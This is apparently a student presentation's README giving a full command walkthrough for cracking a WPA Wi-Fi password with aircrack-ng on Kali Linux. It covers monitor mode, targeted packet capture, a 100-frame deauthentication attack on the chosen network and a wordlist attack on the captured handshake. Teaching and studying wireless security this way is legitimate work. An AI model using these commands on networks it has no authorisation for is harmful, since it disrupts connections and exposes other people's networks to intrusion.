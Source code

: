 # U aircrack-ng
UCLA Final Presentation: Aircrack-ng on Kali Linux

# Verify airmon-ng has no issues:
sudo airmon-ng check

# Determine name of wireless adapter
sudo iwconfig

# Enable monitor mode in the Wi-Fi card
sudo airmon-ng start wlan0
# Do not close terminal.
 
 # Capture the network packets
 sudo airodump-ng wlan0mon
 
 # Identify target network and note BSSID (MAC address) and channel
 sudo airodump-ng --bssid (BSSID) -c (channel) -w (capture file output name) wlan0mon
 
 # Open seperate terminal while packets are capturing
 # In sperate terminal, run:
 sudo aireplay-ng --deauth 100 -a (BSSID) wlan0mon
 
 # Stop capture
 ctrl +c 
 
 # Crack password
 sudo aircrack-ng -b (BSSID) -w (path to wordlist) (capture file name).cap
